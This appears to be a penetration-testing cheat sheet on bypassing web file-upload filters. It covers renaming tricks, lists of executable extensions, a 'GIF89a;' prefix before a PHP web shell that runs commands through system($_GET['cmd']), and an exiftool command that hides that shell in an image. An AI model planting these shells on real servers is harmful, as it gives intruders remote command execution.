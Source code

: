 # Bypass File Upload Filtering

One common way to gain a shell is actually not really a vulnerability, but a feature! Often times it is possible to upload files to the webserver. This can be abused byt just uploading a reverse shell. The ability to upload shells are often hindered by filters that try to filter out files that could potentially be malicious. So that is what we have to bypass.

### Rename it <a id="rename-it"></a>

We can rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

**php** phtml, .php, .php3, .php4, .php5, and .inc

**asp** asp, .aspx

**perl** .pl, .pm, .cgi, .lib

**jsp** .jsp, .jspx, .jsw, .jsv, and .jspf

**Coldfusion** .cfm, .cfml, .cfc, .dbm

### GIF89a; <a id="gif89a"></a>

If they check the content. Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```text
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

### In image <a id="in-image"></a>

```text
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg

### Base64 the payload

Often times you can base64 a file, and decode it in an intercepted burp package. Example blocks other filetypes: 

```bash
cat file.zip | base64 
```

### Nullbyte <a id="nullbyte"></a>

### References <a id="references"></a>

[http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)

